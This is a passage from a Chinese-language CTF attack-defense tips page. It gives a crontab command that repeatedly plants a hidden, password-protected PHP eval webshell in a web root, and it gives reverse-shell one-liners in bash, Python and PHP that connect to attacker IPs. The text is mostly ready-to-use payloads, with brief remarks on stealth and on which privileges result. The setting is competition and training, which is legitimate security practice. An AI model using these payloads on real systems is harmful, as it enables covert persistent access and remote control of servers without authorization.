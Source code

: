 密码复杂，生成文件隐藏 .DS_store(原 .DS_Store)
<li>
<h4 id="h4-crontab-">
<a class="reference-link" name="crontab%E5%86%99%E9%A9%AC"></a>crontab写马</h4>
</li>
```
system('echo "* * * * * echo \"&lt;?php  if(md5(\\\\\\\\\$_POST[pass])==\'50160c2ec4f40d73f9061f8967121157\')`{`@eval(\\\\\\\\\$_POST[1]);`}`  \" &gt; /var/www/html/.index.php\n* * * * * chmod 777 /var/www/html/.index.php" | crontab;whoami');
```

密码：ocean888@.cn

`crontab -u www-data CRON_FILE` 来指定用户运行指定的定时任务

也可以使用cromtab直接在对方靶机上提交flag，隐蔽且狗

推荐：nu1l的ctfer从0到1，里面介绍了一些隐蔽的手段

#### <a class="reference-link" name="bash%E5%8F%8D%E5%BC%B9shell"></a>bash反弹shell

nc反弹shell

```
bash -i &gt;&amp; /dev/tcp/10.243.32.32/9 0&gt;&amp;1
本地 nc -l -p 8080
```

[![](https://p4.ssl.qhimg.com/t01c54a9b6fdf8ea8db.png)](https://p4.ssl.qhimg.com/t01c54a9b6fdf8ea8db.png)

[![](https://p1.ssl.qhimg.com/t0185d44e8c0aba596b.png)](https://p1.ssl.qhimg.com/t0185d44e8c0aba596b.png)

可以切换到bash命令去执行，但是使用bash命令会生成bash_history

#### <a class="reference-link" name="python%E5%8F%8D%E5%BC%B9shell"></a>python反弹shell

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.99.242',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

#### <a class="reference-link" name="php%E5%8F%8D%E5%BC%B9shell"></a>php反弹shell

```
php -r '$sock=fsockopen("10.243.32.53",9999);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'
```

此条命令将会返回一个和靶机相同的用户权限，使用php脚本反弹shell一般是www-data权限

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ed58560cfd5efff4.png)
